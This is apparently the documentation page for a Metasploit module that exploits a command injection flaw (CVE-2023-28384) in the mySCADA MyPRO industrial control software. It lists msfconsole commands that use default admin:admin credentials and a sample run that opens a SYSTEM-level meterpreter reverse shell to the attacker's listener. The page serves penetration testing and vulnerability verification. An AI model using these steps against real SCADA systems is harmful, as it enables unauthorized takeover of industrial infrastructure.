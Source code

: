 ## Vulnerable Application

**Vulnerability Description**

This module exploits a command injection vulnerability in mySCADA MyPRO <= v8.28.0 (CVE-2023-28384).

An authenticated remote attacker can exploit this vulnerability to inject arbitrary OS commands, which will get executed in the context of
`NT AUTHORITY\SYSTEM`.
This module uses the default admin:admin credentials, but any account configured on the system can be used to exploit this issue.

Versions <= 8.28.0 are affected. CISA published [ICSA-23-096-06](https://www.cisa.gov/news-events/ics-advisories/icsa-23-096-06) to cover
the security issues. The official changelog for the updated version, v8.29.0, is available
[here](https://web.archive.org/web/20230320130928/https://www.myscada.org/changelog/?section=version-8-29-0), although it only mentions a
"General security improvement" without further details.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor](http://nsa.myscada.org/myPRO/WIN/myPRO_x64_8.28.0.exe).
For the product to work correctly, the project and log directories need to be configured first, which can be done through the web inteface
(navigate to System > Storage).

**Successfully tested on**

- mySCADA MyPRO 8.28.0 on Windows 10 22H2
- mySCADA MyPRO 8.27.0 on Windows 10 22H2
- mySCADA MyPRO 8.26.0 on Windows 10 22H2

## Verification Steps

1. Install the application
2. Configure the project and log paths (System > Storage in the web interface, running by default on TCP ports 80 & 443)
3. Start `msfconsole` and run the following commands:

```
msf > use exploit/windows/scada/mypro_cmdexe
[*] No payload configured, defaulting to cmd/windows/http/x64/meterpreter/reverse_tcp
msf exploit(windows/scada/mypro_cmdexe) > set RHOSTS <IP>
msf exploit(windows/scada/mypro_cmdexe) > exploit
```

You should get a meterpreter session in the context of `NT AUTHORITY\SYSTEM`.

## Options
### USERNAME

The username of a MyPRO user (default: admin)

### PASSWORD

The associated password of the MyPRO user (default: admin)

## Scenarios

Running the exploit against MyPRO v8.28.0 on Windows 10 22H2, using curl as a fetch command, should result in an output similar to the
following:

```
msf exploit(windows/scada/mypro_cmdexe) > exploit

[*] Started reverse TCP handler on 192.168.1.241:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Checking credentials...
[+] Credentials are working.
[*] Sending command injection...
[*] Sending stage (201798 bytes) to 192.168.1.239
[*] Meterpreter session 12 opened (192.168.1.241:4444 -> 192.168.1.239:57382) at 2024-07-23 23:38:12 -0400
[*] Exploit finished, check thy shell.

meterpreter > shell
Process 2632 created.
Channel 1 created.
Microsoft Windows [Version 10.0.19045.4651]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
nt authority\system
```
